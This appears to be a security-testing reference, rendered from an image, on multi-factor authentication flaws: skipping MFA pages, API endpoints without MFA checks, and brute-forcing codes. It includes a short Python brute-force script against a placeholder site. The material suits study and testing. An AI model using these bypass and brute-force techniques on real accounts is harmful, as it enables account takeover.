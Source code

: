 - **Multi-factor authentication vulnerabilities**
  
  - **Bypassing MFA completely**
    
    - **Incomplete MFA implementation**
      - Direct access to post-login pages without MFA verification
      - Detection: Complete login step but skip MFA, then try to access protected pages
      - Exploitation: 
        - Change URL after login but before MFA step
        - Manipulate cookies or session tokens after initial login
        - Access sub-pages directly after primary authentication
      - Example bypass technique:
        ```
        1. Login with valid credentials to /login
        2. Instead of proceeding to /mfa-verification
        3. Try accessing /account or /dashboard directly
        ```
    
    - **MFA not required for API endpoints or mobile API**
      - Web APIs lacking the same MFA checks as UI flows
      - Detection: Analyze API endpoints for authentication requirements
      - Exploitation: Directly call API endpoints, bypassing MFA
      - Example:
        ```
        # Normal UI flow
        POST /login -> POST /mfa-verify -> POST /api/user/data

        # Bypass attempt
        POST /login -> POST /api/user/data (skipping MFA)
        ```
  
  - **Flawed MFA verification logic**
    
    - **Brute-forcing MFA tokens**
      - Applications allowing unlimited attempts to enter MFA codes
      - Detection: Test multiple incorrect MFA codes to see if limited
      - Exploitation: Script to try all possible combinations (e.g., 000000-999999 for 6-digit codes)
      - Example attack script:
        ```python
        import requests

        session = requests.Session()
        # Assume successful login already completed
        
        for code in range(1000):
            code_formatted = f"{code:04d}"  # 4-digit code with leading zeros
            response = session.post(
                "https://vulnerable-website.com/mfa-verify",
                data={"mfa-code": code_formatted}
            )
            if "Incorrect code" not in response.text:
                print(f"Valid code found: {code_formatted}")
                break
        ```
    